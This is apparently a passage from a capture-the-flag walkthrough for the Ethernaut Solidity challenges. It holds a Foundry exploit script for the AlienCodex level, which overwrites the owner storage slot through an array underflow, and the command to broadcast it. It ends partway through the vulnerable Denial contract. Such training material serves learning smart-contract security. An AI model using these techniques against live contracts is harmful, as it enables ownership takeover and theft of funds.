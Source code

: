 ```solidity

}

contract Level19Sol is Script{
    IAlienCodex public instance = IAlienCodex(0xe5EC55D210Edd23dBB7d055E9ed63DAA8E35e493);
    function run() external{
    vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

   

    uint index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;
    bytes32 myAddress =  bytes32(uint256(uint160(vm.envUint("MY_ADDRESS"))));

    instance.makeContact();
    instance.retract();
    instance.revise(index,myAddress);

    bytes32 newOwner = vm.load(address(instance),bytes32(uint(0)));

    console.logBytes32(newOwner);

    vm.stopBroadcast();

    }
}
```

**To run the script**

```
$ source .env
$ forge script script/Level19Solution.s.sol:Level19Sol --rpc-url $RPC_URL --broadcast
```

## Denial

**Level20.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
```